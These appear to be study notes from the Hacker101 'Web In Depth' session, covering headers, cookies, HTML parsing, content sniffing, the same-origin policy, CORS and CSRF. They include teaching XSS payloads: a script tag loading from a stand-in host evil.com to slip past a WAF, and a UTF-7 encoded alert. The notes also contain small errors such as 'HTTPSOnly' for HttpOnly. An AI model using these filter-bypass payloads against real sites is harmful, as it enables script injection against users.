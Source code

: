 # Hacker101 Sessions

## 02. The Web In Depth

#### Request Headers

__Referrer__: Normally, is the page that lead to the request being done. However, if the origin connection is HTTPS, referrer won't be passed to any other servers.  

__Authorization__: Most sites use a form of 'basic auth' for normal authorization pages. It normally takes the form of "Basic <base64'd username:password>".  

__Cookies__: Cookies are key-value pairs of data that come from the server and are stored in the client, normally for a fixed ammount of time. Each cookie has a domain pattern that must match. Each cookie must match the domain pattern. If it applies to a root domain, it applies to every subdomains. If you can set cookies in domains where you're not supposed to, is a breach of security.  

_i.e_:  

> Cookies added for ".foo.com" can be read in any subdomain of "foo.com"
>Cookies added for "bar.foo.com" will only apply to "bar.foo.com"
>A subdomain can set cookies for it's own children and parent, but never for sibiling domains. i.e: "bar.foo.com" can't set cookies on "bar2.foo.com", but can in "bar.foobar.foo.com" and in "foo.com".  

- Flags (indicated by the server):

--- Secure: Only accessible to HTTPS pages  
--- HTTPSOnly: The cookie cannot be read by Javascript code.  

#### HTML

__Parsing__:  HTML _should_ be parsed by the relevant spec, generally HTML5.
When talking about security, HTML won't be only parsed by the browser, but also by WAF and other filters. If a discrepancy exists betweent the parsing convention, a potential vulnerability might exist.  

--- Canonical Example:

When visiting ```http://foo.com/vuln?name=<script/xss%20src=http://evil.com/evil.js>``` and it generates:

```html
<html>
    <head>
        <title>Vuln name <script xss src=http://evil.com/evil.js></title>
    </head>
</html>
```
The WAF will see "script/xss" and let it through as it doesn't match parsing. Browser is prepared to treat the slash after the HTML as an empty space (it thinks it's a broken character), so it will just render an empty "xss" attribute in the script tag and let the src go through. Normally WAF parsers are not this dumb anymore.  


#### Content Sniffing

__MIME Sniffing__: The browser will often now only look at the Content-Type header that the server passes with a request, but also the contents of a page.  

> "If it looks enough like HTML, it'll be parsed as HTML"  

This led to IE 6/7 bugs where image and text image containing enough HTML tags would execute as HTML. (Not relevant to most users today, but still a thing in enterprises)-

--- i.e:

There's a site called ZuckBook that allows users to upload pictures. If a malicious user uploads an image that contains HTML and then links it to other users, HTML would be parsed in the victim's browser.   

That's why ZuckBook and other sites use a separate domain to host user media.  

__Encoding Sniffing__: 

There are sites like HackerNews that didn't specify an encoding for the HTML document, so it's up to the browser to apply heuristics to determine it. That's why sometimes it renders funky characters. 

> "If you are able to control the way the browser decodes text, yo may be able to alter the parsing"

An example is UTF-7 encoding, which can look like this:

```+ADw-script+AD4-alert('XSS');+ADw-/script+AD4-```  

This will go clean through HTML encoding, as there's no unsafe characters. What there is is unsafe UTF-7 characters, because older browsers will see this and switch the parsing over to UTF-7, rendering:  

```<script>alert('xss')</script>```  

...an allowing the attack to succeed.  

This can be a great way to bypass WAF's, as if they're looking for UTF-8, or ASCII and you send UTF-7 or UTF-32 characters, you get through the filter.  


_ALWAYS specify an encoding and be sure which encoding is the browser using when parsing_  


__Same-Origin Policy__: SOP is how the browser determines a number of security features, like what domains can you contact via AJAX requests, or the access to the DOM accross separate frames or windows.  

It's what's preventing Internet from havoc. Every time it's broken, something bad happens.  
_SOP is much more strict than cookies:_

-- Protocol must match - no crossing HTTP/S
-- Port numbers must match  
-- Domain names must be an exact match - no wildcarding or subdomain walking  

_SOP loosening:_

It's possible for developers to loosen the grip that SOP has on their communications.

-- Changing _document.domain_  
-- Using [postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
-- Using CORS 

__CORS__:  

Cross-Origin Resource Sharing is still relatively new, and allows some risky situations.  

In essence, with misconfiguration, you're allowed to make requests outside of your origin (i.e from _foo.com_ to _bar.com_), so it's possible to pass to another server the receiving domain cookies, allowing attackers to potentially compromise logged-in users.  

__CSRF__:  

Cross-Site Request Forgery is when a attacker tricks a victim to access a site they control, which will submit data to the target site _as_ the victim. One of the most common vulnerabilities today (see _./README/CRSF_).  









